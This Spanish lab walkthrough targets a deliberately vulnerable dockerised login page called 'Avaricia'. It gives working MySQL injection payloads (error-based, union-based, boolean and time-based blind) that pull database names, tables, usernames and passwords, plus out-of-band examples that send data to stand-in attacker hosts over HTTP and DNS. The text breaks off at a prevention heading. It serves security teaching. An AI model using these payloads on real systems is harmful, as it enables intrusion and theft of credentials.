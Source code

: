 = Avaricia
:author: Manuel L. Quero
:revdate: 2025-03-31
:toc: left
:doctype: book

<<<

== Ataque SQL Injection (SQLi)

Los ataques de inyección SQL se basan en la manipulación de bases de datos SQL mediante la inserción de consultas maliciosas en campos de entrada. Esto permite a un atacante alterar datos, acceder a información confidencial y realizar acciones no autorizadas. Un usuario malintencionado podría:

* Suplantar la identidad de otro usuario con más privilegios.
* Elevar sus propios permisos o los de otros hasta niveles administrativos.
* Manipular datos existentes o eliminarlos.
* Obtener acceso a información sensible almacenada en la base de datos.

Existen tres grandes grupos de ataques SQLi:

=== 1. In-band SQL injection

Este es el tipo de ataque SQLi más clásico y directo. Se caracteriza porque el atacante envía consultas SQL maliciosas y recibe los resultados por el mismo canal de comunicación, generalmente como una respuesta de la base de datos en una página web.

Dentro de este grupo encontramos dos subtipos:

==== a. Error-based SQL injection

Este ataque explota los mensajes de error devueltos por la base de datos para obtener información sensible. Aunque estos errores pueden parecer inofensivos, un atacante puede utilizarlos para:

* Obtener la versión de la base de datos y poder usar ataques específicos dependiendo de la versión.
* Conocer la estructura de la base de datos para poder intentar SQLi más específicas.
* Extraer datos de la base de datos. El proceso es más largo y complejo pero se pueden manipular los errores para extraer datos.

==== b. Union-based SQL injection

Este ataque utiliza la cláusula *UNION* para combinar en una misma consulta información legítima con datos sensibles. Es un método especialmente peligroso, ya que permite al atacante recuperar casi cualquier dato almacenado en la base de datos con una única consulta.

=== 2. Blind SQL Injection

Las inyecciones SQL a ciegas son una variante en la que el atacante no recibe respuestas directas de la base de datos. En lugar de obtener mensajes de error o resultados visibles, debe inferir la información mediante observación indirecta.

Este tipo de ataques funciona como un sistema de "verdadero o falso", donde el atacante prueba diferentes consultas y analiza los cambios en el comportamiento del sistema.

Si quieres saber más sobre este tipo de ataques puedes mirar -> https://www.exploit-db.com/docs/47367[Inyección SQL a ciegas]

Dentro de este grupo encontramos dos subtipos:

==== a. Boolean-Based SQL Injection

En este ataque, el atacante inyecta una condición que evalúa si es *TRUE* o *FALSE*, observando las diferencias en la respuesta del servidor. Normalmente, se utiliza la cláusula *AND* para construir estas pruebas.

==== b. Time-based SQL Injection

En este caso, el ataque se basa en utilizar funciones como *SLEEP()* o *BENCHMARK()* para medir los tiempos de respuesta y determinar si una consulta se ejecutó correctamente.

=== 3. Out-of-band SQL injection (OOB SQLi)

El ataque de SQL fuera de banda consiste en enviar la información consultada a través de un canal diferente al utilizado para la interacción con la aplicación. El atacante usa comandos SQL para que envíen información a través de una conexión de red directa, una solicitud DNS o una solicitud HTTP

<<<

== Solucionar la máquina

Vamos a ver cómo realizar los diversos tipos de ataques de inyección SQL que hemos visto anteriormente y ver las respuestas que nos dan, además de entender las consultas que realizamos.

Sería conveniente utilizar una distribución Linux, es recomendable usar Kali Linux.

=== Despliegue de la máquina

Como requisito, necesitaremos tener instalado docker y docker-compose.

Podemos ver como instalar docker para varias distribuciones de linux -> https://docs.docker.com/engine/install/[Instalar Docker]

Podemos ver como instalar docker-compose para varias distribuciones de linux -> https://docs.docker.com/compose/install/linux/[Instalar Docker-Compose]

Necesitaremos descargar primeramente el auto_deploy.sh, el cual se muestra como una pirámide en la página. Después en un directorio deberemos tener el auto_deploy.sh, avaricia.tar y docker-compose.yml, deberemos acceder con la terminal a dicho directorio y ejecutar el siguiente comando. 

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh avaricia.tar
----

En nuestro caso la base de datos usa Mysql, podemos ver una guía de los distintos payloads para otros servicios de bases de datos -> https://portswigger.net/web-security/sql-injection/cheat-sheet[SQLiCheatSheet].

=== 1. In-band SQL injection

==== a. Error-based SQL injection

Con este ataque, podremos obtener mucha información sobre la base de datos, desde su versión hasta contraseñas.

===== Reconocimiento

Pero antes de esto deberemos comprobar si nos muestra los errores o no para ello deberemos hacer la siguiente consulta:

----
Usuario: '
Contraseña: 1234
----

Al poner esa comilla simple, se cierra la consulta que hace la web al servidor de mysql, por lo que el resto sería un error en la sintaxis de sql.

image::assets/in-band/error-based/Recon1.png[Reconocimiento1]

image::assets/in-band/error-based/Recon2.png[Reconocimiento2]

===== Payloads

Para cada uno de ellos utilizaremos la clausula updatexml(), que permite modificar datos XML dentro de bases de datos MySQL. En nuestro caso lo usaremos para lanzar los errores y mostrar su contenido como un mensaje.

----
UPDATEXML(xml_target, xpath_expr, new_value)
----

*Obtener la versión del motor de MySQL*

----
Usuario: ' AND updatexml(null, concat(0x3a, @@version), null) -- '
Contraseña: 
----

* *'* -> Esto es un carácter de comilla simple que cierra la consulta original y nos permite iniciar la nuestra.
* *AND* -> Añadimos una condición a la consulta original.
* *updatexml()* -> La función intenta procesar una expresión XML, pero si se le pasa un valor que no es válido como XML (en este caso, un valor concatenado con concat), lanzará un error. El contenido que se pase dentro de concat() se convierte en el mensaje de error, lo que permite al atacante obtener información sensible.
- *null* -> Sirve para no afectar al ataque.
- *concat(0x3a, @@version)* -> Con esto, concatenaremos varias cadenas, el valor de _0x3a_ en hexadecimal corresponde con el carácter :, que se usará como separador entre los valores concatenados. Y _@@version_ es una variable global en MySQL que devuelve la versión del servidor.
- *null* -> Sirve para no afectar al ataque.
- *--* -> Sirven para que el resto de consulta sea comentado y sea ignorado.
- *'* -> Este carácter es para cerrar la otra comilla simple y que no nos de ningún error, y así se pueda comentar el resto de la consulta correctamente.

image::assets/in-band/error-based/Version1.png[Version1]

image::assets/in-band/error-based/Version2.png[Version2]

*Obtener el nombre de la base de datos actual*

----
Usuario: ' AND updatexml(null, concat(0x3a, database()), null) -- '
Contraseña: 
----

Como podemos ver la sintaxis es la misma que el anterior pero cambia el contenido del concat().

* *database()* -> Esta es una función de MySQL que devuelve el nombre de la base de datos actual a la que está conectado el servidor MySQL.

image::assets/in-band/error-based/BaseDatos1.png[BaseDatos1]

image::assets/in-band/error-based/BaseDatos2.png[BaseDatos2]

*Obtener el nombre de la primera tabla*

----
Usuario: ' AND updatexml(null, concat(0x3a, (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)), null) -- '
Contraseña: 
----

* *information_schema.tables* -> _information_schema_ es una base de datos especial en MySQL que contiene información sobre todas las bases de datos y sus tablas. La tabla tables contiene los nombres de todas las tablas de una base de datos.

* *table_schema=database()* -> database() devuelve el nombre de la base de datos actual. Al usar esta función dentro de la consulta, estás buscando las tablas dentro de la base de datos actual.

* *LIMIT 0,1* -> Esto limita los resultados de la consulta a una sola fila. De esta forma obtendremos solo el primer nombre de tabla de la base de datos.

image::assets/in-band/error-based/Usuarios1.png[TablaUsuarios1]

image::assets/in-band/error-based/Usuarios2.png[TablaUsuarios2]

*Obtener el nombre de la primera columna de una tabla*

----
Usuario: ' AND updatexml(null, concat(0x3a, (SELECT column_name FROM information_schema.columns WHERE table_name='usuarios' LIMIT 0,1)), null) -- '
Contraseña: 
----

* *information_schema.columns* -> Esta tabla contiene información sobre las columnas de todas las tablas de la base de datos. Se puede consultar para obtener detalles sobre las columnas de una tabla específica.

* *table_name='usuarios'* -> Aquí estamos buscando las columnas de la tabla llamada usuarios (que lo podemos obtener de la anterior consulta).

* *LIMIT 0,1* -> Limitamos el resultado a solo una columna para facilitar la consulta y evitar que se devuelvan demasiados resultados.

image::assets/in-band/error-based/Colum1.png[Columna1]

image::assets/in-band/error-based/Colum2.png[Columna2]

*Extraer usuarios y contraseñas (u otras columnas)*

----
Usuario: ' AND updatexml(null, concat(0x3a, (SELECT usuario FROM usuarios LIMIT 0,1)), null) -- '
Contraseña: 
----

Como ya sabemos la tabla y podemos conocer las distintas columnas que tiene, se hace más sencilla la busqueda de información. En este caso, vamos a extraer el nombre del primer usuario.

image::assets/in-band/error-based/Nombre1.png[NombreUsuarios1]

image::assets/in-band/error-based/Nombre2.png[NombreUsuarios2]

----
Usuario: ' AND updatexml(null, concat(0x3a, (SELECT password FROM usuarios LIMIT 0,1)), null) -- '
Contraseña: 
----

También podemos ver las contraseñas si sabes la columna en la que están. Si queremos ver otros datos de la misma columna podemos cambiar el LIMIT a LIMIT(1,1).

image::assets/in-band/error-based/Contraseñas1.png[Contraseñas1]

image::assets/in-band/error-based/Contraseñas2.png[Contraseñas2]

==== b. Union-based SQL injection

===== Reconocimiento

Para este tipo de ataques es importante conocer cuantas columnas tiene la consulta original, para que las columnas que inyecta el UNION coincidan.

Entonces, podemos usar el payload anterior para obtener el nombre la columna empezando por LIMIT(0,1) hasta que nos de error.

----
' AND updatexml(null, concat(0x3a, (SELECT column_name FROM information_schema.columns WHERE table_name='usuarios' LIMIT 0,1)), null) -- '
----

O podemos usar un payload UNION para ir sacando mediante NULL la cantidad de columnas que tiene.

----
Usuario: ' UNION SELECT NULL, NULL, NULL, NULL,(...) -- '
Contraseña: 
----

Aclarar que los (...) son NULL en caso que la tabla tenga más columnas. Si la tabla tiene seis columnas se deberán añadir dos NULL más al payload.

De esta forma, sabremos la estructura de la tabla y podremos incluso acceder, aunque no tengamos datos de nadie todavía. Esto nos permitirá inyectar datos específicos.

image::assets/in-band/union-based/Recon1.png[Reconocimiento1]

image::assets/in-band/union-based/Recon2.png[Reconocimiento2]

===== Payloads

*Recuperar el nombre de la base de datos*

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), database() -- '
Contraseña: 
----

Este payload lo que nos mostrará será el nombre de la base de datos en la posición que pongamos database(), es decir, si la tabla tiene seis columnas y en la cuenta se muestran los datos de las tres últimas columnas, tendremos que poner database() en alguna de esas posiciones para obtener los datos, en este caso el nombre de la base de datos.

image::assets/in-band/union-based/BaseDatos1.png[BaseDatos1]

image::assets/in-band/union-based/BaseDatos2.png[BaseDatos2]

*Recuperar el nombre de las tablas*

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() -- '
Contraseña: 
----

* *group_concat(table_name)* -> Esta función de MySQL concatena todos los nombres de las tablas en la base de datos, obteniendolas separadas por comas.

* *information_schema.tables* -> Esta tabla contiene información sobre todas las tablas en todas las bases de datos en MySQL. La consulta se limita a la base de datos actual utilizando WHERE *table_schema=database()*.

image::assets/in-band/union-based/Tablas1.png[NombreTablas1]

image::assets/in-band/union-based/Tablas2.png[NombreTablas2]

*Recuperar los nombres de las columnas de una tabla específica*

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), group_concat(column_name) FROM information_schema.columns WHERE table_name='usuarios' -- '
Contraseña: 
----

* *group_concat(column_name)* -> Similar al paso anterior, esta función concatenará los nombres de las columnas de la tabla usuarios y los devolverá como un solo resultado.

* *information_schema.columns* -> Esta tabla contiene información sobre todas las columnas de todas las tablas en MySQL. Al limitarla por table_name='usuarios', obtenemos los nombres de las columnas de la tabla usuarios.

image::assets/in-band/union-based/Columnas1.png[Columnas1]

image::assets/in-band/union-based/Columnas2.png[Columnas2]

*Extraer datos de las columnas (usuarios, contraseñas u otras columnas)*

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), group_concat(usuario) FROM usuarios -- '
Contraseña: 
----

* *group_concat(usuario)* -> Aquí estamos extrayendo los datos de la columna usuario de la tabla usuarios y concatenándolos para que todos los nombres de usuario sean devueltos en una sola cadena separada por comas.

image::assets/in-band/union-based/Usuarios1.png[Usuarios1]

image::assets/in-band/union-based/Usuarios2.png[Usuarios2]

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), group_concat(password) FROM usuarios -- '
Contraseña: 
----

* *group_concat(password)* -> Similar al paso anterior, pero en este caso estamos extrayendo los valores de la columna password de la tabla usuarios.

image::assets/in-band/union-based/Contraseñas1.png[Contraseñas1]

image::assets/in-band/union-based/Contraseñas2.png[Contraseñas2]

=== 2. Blind SQL Injection

==== a. Boolean-Based SQL Injection

En los ataques boolean-based se usan operadores lógicos como AND u OR para alterar las condiciones de una consulta SQL. AND se usa cuando se conoce una condición válida (como un usuario) y se quiere comprobar si otra también lo es, por ejemplo 1=1. OR, en cambio, permite que la consulta sea verdadera si al menos una condición se cumple, como usuario = 'admin' OR 1=1, forzando así una respuesta positiva.

En nuestro caso, vamos a usar AND ya que con los anteriores resultado sabemos que existe el usuario *admin* y *user*. En caso de que no conozcamos estos datos se recomienda usar OR.

===== Reconocimiento

Ahora valuaremos si la página es vulnerable a este tipo de ataques, la lógica de esta página es que si es verdad nos dejará acceder, si es falso nos dirá que las credenciales son incorrectas. A este tipo de ataques se les suele hacer un script para automatizar la iteración y obtener respuestas para cosas más específicas.

----
Usuario: admin' AND 1=1 --
Contraseña: 
----

image::assets/blind/boolean-based/Recon1.png[Reconocimiento1]

image::assets/blind/boolean-based/Recon2.png[Reconocimiento2]

----
Usuario: admin' AND 1=2 --
Contraseña: 
----

image::assets/blind/boolean-based/Recon3.png[Reconocimiento3]

image::assets/blind/boolean-based/Recon4.png[Reconocimiento4]

===== Payloads

*Inferir nombre de la base de datos*

En esta parte, cómo queremos algo muy específico que es el nombre de la base de datos, podemos ir letra por letra para ir sacando el nombre de la base de datos o tener un script y usar un diccionario para sacarlo más rápido. En este caso buscamos *banco*.

----
Usuario: admin' AND SUBSTRING(database(),1,1) = 'a' -- 
Contraseña:
----

Y así deberemos seguir con cada letra, obviamente esto no está pensado para hacerlo así y hay scripts que solucionan estos problemas. Una herramienta muy eficaz es https://github.com/sqlmapproject/sqlmap[sqlmap].

* *SUBSTRING(database(),1,1)* -> Toma el primer carácter del nombre de la base de datos. Para pasar al siguiente caracter sería SUBSTRING(database(),2,1), etc.
* *= 'b'* -> Compara si ese carácter es 'b'.

image::assets/blind/boolean-based/BaseDatos1.png[BaseDatos1]

image::assets/blind/boolean-based/BaseDatos2.png[BaseDatos2]

----
Usuario: admin' AND SUBSTRING(database(),1,1) = 'b' -- 
Contraseña:
----

image::assets/blind/boolean-based/BaseDatos3.png[BaseDatos3]

image::assets/blind/boolean-based/BaseDatos4.png[BaseDatos4]

*Inferir nombre de tablas*

En este caso buscamos *usuarios* en la base de datos actual.

----
Usuario: admin' AND (SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) = 'a' -- 
Contraseña:
----

image::assets/blind/boolean-based/Tablas1.png[Tablas1]

image::assets/blind/boolean-based/Tablas2.png[Tablas2]

----
Usuario: admin' AND (SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) = 'u' -- 
Contraseña:
----

image::assets/blind/boolean-based/Tablas3.png[Tablas3]

image::assets/blind/boolean-based/Tablas4.png[Tablas4]

Este payload consulta la primera tabla del esquema actual y verifica si empieza con la letra 'u'. Se van cambiando posiciones (LIMIT 1,1, LIMIT 2,1, etc.) y posiciones del carácter (SUBSTRING(...,2,1), etc.) para inferir cada tabla y cada letra.

*Extraer columnas de una tabla*

En este caso buscamos *usuario* en la tabla *usuarios*.

----
Usuario: admin' AND (SELECT SUBSTRING(column_name,1,1) FROM information_schema.columns WHERE table_name='usuarios' LIMIT 1,1) = 'u' -- 
Contraseña:
----

image::assets/blind/boolean-based/Columnas1.png[Columnas1]

image::assets/blind/boolean-based/Columnas2.png[Columnas2]

Y al igual que el resto se debe de ir carácter por carácter para obtener la pálabra correcta. Se van cambiando posiciones (LIMIT 1,1, LIMIT 2,1, etc.) y posiciones del carácter (SUBSTRING(...,2,1), etc.) para inferir cada tabla y cada letra.

*Extraer datos*

En este caso buscamos *admin123* en la columna *password*.

----
Usuario: admin' AND (SELECT SUBSTRING(usuario,1,1) FROM usuarios LIMIT 1,1) = 'u' -- 
Contraseña:
----

image::assets/blind/boolean-based/Contraseña1.png[Contraseña1]

image::assets/blind/boolean-based/Contraseña2.png[Contraseña2]

----
Usuario: admin' AND (SELECT SUBSTRING(usuario,2,1) FROM usuarios LIMIT 1,1) = 's' -- 
Contraseña:
----

image::assets/blind/boolean-based/Contraseña3.png[Contraseña3]

image::assets/blind/boolean-based/Contraseña4.png[Contraseña4]

===== Aclaración

Como hemos visto, este ataque es muy repetitivo, por lo que he recalcado que es mucho más eficaz realizarlo mediante un script. Además, en un caso real no conoceremos de antemano ninguna información, por eso he explicado en cada paso qué es lo que busco, para ir directo al objetivo y no perder tiempo con pruebas innecesarias.

==== b. Time-based SQL Injection

Este tipo de ataque es muy parecido al anterior, por lo que también recomendaría usar un script

===== Reconocimiento

En este tipo de ataques, notaremos que si es verdadero la página empezará a cargar, si es falso la página se actualizará con normalidad.

----
Usuario: admin' AND IF(1=1, SLEEP(5), 0) -- 
Contraseña:
----

image::assets/blind/time/Recon1.png[Reconocimiento1]

image::assets/blind/time/Recon2.png[Reconocimiento2]

----
Usuario: admin' AND IF(1=2, SLEEP(5), 0) -- 
Contraseña:
----

image::assets/blind/time/Recon3.png[Reconocimiento3]

image::assets/blind/time/Recon4.png[Reconocimiento4]

* *AND IF(1=1, SLEEP(5), 0)* -> Si la condición 1=1 es verdadera (siempre lo es), el servidor ejecutará SLEEP(5) y causará un retraso de 5 segundos.

===== Payloads

*Obtener el nombre de la base de datos completo*

Como ya sabemos que es *banco* podemos buscar directamente, pero ocurre como en el anterior ataque.

----
Usuario: admin' AND IF(SUBSTRING(DATABASE(),1,1) = 'b', SLEEP(5), 0) -- 
Contraseña:
----

image::assets/blind/time/BaseDatos1.png[BaseDatos1]

image::assets/blind/time/BaseDatos2.png[BaseDatos2]

----
admin' AND IF(SUBSTRING(DATABASE(),1,1) = 'b', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING(DATABASE(),2,1) = 'a', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING(DATABASE(),3,1) = 'n', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING(DATABASE(),4,1) = 'c', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING(DATABASE(),5,1) = 'o', SLEEP(5), 0) -- 
----

* *IF(SUBSTRING(DATABASE(),1,1) = 'a', SLEEP(5), 0)* -> Si el primer carácter es 'a', el servidor esperará 5 segundos (esto es el ataque Time-Based).

- *SUBSTRING(DATABASE(),1,1)* -> Extrae el primer carácter del nombre de la base de datos.

. *DATABASE()* Función de MySQL que devuelve el nombre de la base de datos actual.

*Obtener tablas sobre la base de datos*

En este caso vamos a buscar la tabla *usuarios*

----
Usuario: admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),1,1) = 'u', SLEEP(5), 0) -- 
Contraseña:
----
image::assets/blind/time/Tablas1.png[Tablas1]

image::assets/blind/time/Tablas2.png[Tablas2]

----
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),1,1) = 'u', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),2,1) = 's', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),3,1) = 'u', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),4,1) = 'a', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),5,1) = 'r', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),6,1) = 'i', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),7,1) = 'o', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),8,1) = 's', SLEEP(5), 0) -- 
----

* *SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE()* -> Consulta que selecciona las tablas de la base de datos actual.

* *SUBSTRING(...)* -> Extrae el primer carácter del nombre de la primera tabla.

* *SLEEP(5)* -> Si el primer carácter es correcto (en este caso, 'u'), el servidor hará una pausa de 5 segundos.

*Obtener las columnas de una tabla*

En este caso vamos a buscar la columna *id*

----
Usuario: admin' AND IF(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name = 'usuarios' LIMIT 1),1,1) = 'i', SLEEP(5), 0) -- 
Contraseña:
----

image::assets/blind/time/Columnas1.png[Columnas1]

image::assets/blind/time/Columnas2.png[Columnas2]

----
admin' AND IF(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name = 'usuarios' LIMIT 1),1,1) = 'i', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name = 'usuarios' LIMIT 1),2,1) = 'd', SLEEP(5), 0) -- 
----

* *SELECT column_name FROM information_schema.columns WHERE table_name = 'usuarios'* -> Consulta que selecciona los nombres de las columnas de la tabla 'usuarios'.

*Obtener contraseñas o datos sensibles*

En este caso vamos a buscar la contraseña *admin123* dentro de los columna *password*

----
Usuario: admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),1,1) = 'a', SLEEP(5), 0) -- 
Contraseña:
----

image::assets/blind/time/Contraseña1.png[Contraseña1]

image::assets/blind/time/Contraseña2.png[Contraseña2]

----
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),1,1) = 'a', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),2,1) = 'd', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),3,1) = 'm', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),4,1) = 'i', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),5,1) = 'n', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),6,1) = '1', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),7,1) = '2', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),8,1) = '3', SLEEP(5), 0) --
----

SELECT password FROM usuarios LIMIT 1: Obtiene la primera fila de la columna password de la tabla usuarios.

===== Aclaración

Como hemos podido ver, ocurre como en el caso anterior aunque cambia un poco la sintaxis, por ello recomiendo el uso de scripts en los ataques a ciegas.

=== 3. Out-of-band SQL injection (OOB SQLi)

Los ataques fuera de banda se basan en enviar la información al servidor http o dns del atacante. En nuestro caso, no podemos realizarlos ya que la base de datos debe hacer peticiones externas y al estar en local no se puede, de todas formas, vamos a ver cómo se realizan estos ataques.

Hay que entender que estos ataques se realizan cuando el atacante no puede usar el mismo canal para enviar el ataque y recibir los datos o cuando el servidor responde que es inestable. Normalmente se realiza por HTTP. Y es importante que el servidor no tenga --secure-file-priv, ya que limita la lectura o escritura de atchivos a un directorio específico.

* El atacante realiza una consulta a la web con un payload como los siguientes:

----
- HTTP: ' UNION SELECT NULL,NULL,(...),CONCAT('http://example.com/?data=', @@version) ;-- 

Este payload realiza una inyección SQL y ejecuta una consulta que solicita un archivo en el servidor del atacante. En este caso, la consulta le pide al servidor web de la víctima que realice una petición HTTP a un servidor controlado por el atacante y pase información (en este caso, la versión de MySQL) como parte de la URL.

- DNS: ' UNION SELECT NULL,NULL,(...),@@version INTO OUTFILE '\\\\example.com\\capture.txt' ;--

Similar al anterior, pero en este caso, la inyección SQL hace que la base de datos intente resolver un dominio DNS. La función load_file() o una función similar intenta acceder a un recurso en el dominio controlado por el atacante. Esto puede ser aprovechado para exfiltrar información como la versión de MySQL o el nombre de usuario.
----

* La página web realiza la consulta a la base de datos, pasando el payload del atacante en la consulta SQL.

* Cómo recibe el atacante la información:

----
- HTTP: La base de datos realiza una petición HTTP al servidor del atacante. En este caso, el payload contiene una URL que será solicitada al servidor del atacante, permitiendo que los datos (por ejemplo, la versión de la base de datos) sean enviados como parte de los parámetros de la URL.

Por ejemplo, la base de datos de la víctima hará una solicitud HTTP similar a: http://attacker.com/capture?version=5.7.35

- DNS: El servidor de bases de datos realiza una consulta DNS al dominio controlado por el atacante. El atacante puede ver las consultas DNS que se envían al servidor controlado por él, y en esos registros de DNS podrá ver los datos exfiltrados, como la versión de MySQL o cualquier otra información solicitada en la consulta SQL.

En este caso, el servidor de la base de datos realiza una consulta a un dominio DNS como: 5.7.35.attacker.com

El atacante puede ver esta consulta en su servidor DNS y extraer la información.
----

image::assets/oob/OOB.png[OOB]

<<<

== ¿Cómo prevenir?

=== 1. Parametrizar

